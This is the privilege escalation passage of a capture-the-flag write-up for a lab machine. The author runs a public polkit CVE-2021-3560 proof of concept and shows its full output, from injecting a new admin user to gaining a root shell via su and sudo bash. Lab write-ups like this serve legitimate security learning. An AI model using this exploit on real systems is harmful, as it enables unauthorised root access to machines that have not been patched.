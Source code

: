 # Privesc
As it turns out it's vulnerable to the CVE-2021-3560 which is a vulneralbility that allows the attacker to create a new admin. A brief summary is written ![here](https://access.redhat.com/security/cve/cve-2021-3560). But as a treat, the creator of the box has created a privesc POC that we can use. This definetly is the right way

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh
The flow of the code is shown under, i won't comment too much on it as it explains well what its doing. The only problem i had was using the correct password. Therefore i added the -p flag to declare my own password. Bear in mind, the code says that you might need to run this exploit a couple of times, so don't worry.
```bash
[dwight@paper shm]$ ./esc.sh -p=test123  
[!] Username set as : secnigma           
[!] No Custom Timing specified.           
[!] Timing will be detected Automatically  
[!] Force flag not set.                
[!] Vulnerability checking is ENABLED!   
[!] Starting Vulnerability Checks...       
[!] Checking distribution...                                     
[!] Detected Linux distribution as "centos"                           
[!] Checking if Accountsservice and Gnome-Control-Center is installed 
[+] Accounts service and Gnome-Control-Center Installation Found!!  
[!] Checking if polkit version is vulnerable                 
[+] Polkit version appears to be vulnerable!!                  
[!] Starting exploit...                                       
[!] Inserting Username secnigma...                                         
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required       
[+] Inserted Username secnigma  with UID 1005!               
[!] Inserting password hash...                            
[!] It looks like the password insertion was succesful!          
[!] Try to login as the injected user using su - secnigma              
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper shm]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma:
[root@paper secnigma]# whoami
root
```
We are root.

# Final thoughts
I hope you learned something. A classic thing in this box was thinking outside of the box. Virtual hosting can be hard to think about in the start, but it definetly is useful to hide pages or reroute traffic. And trying out linpeas was fun as it is a verry powerful and structured tool. I will definetly use this in the future.
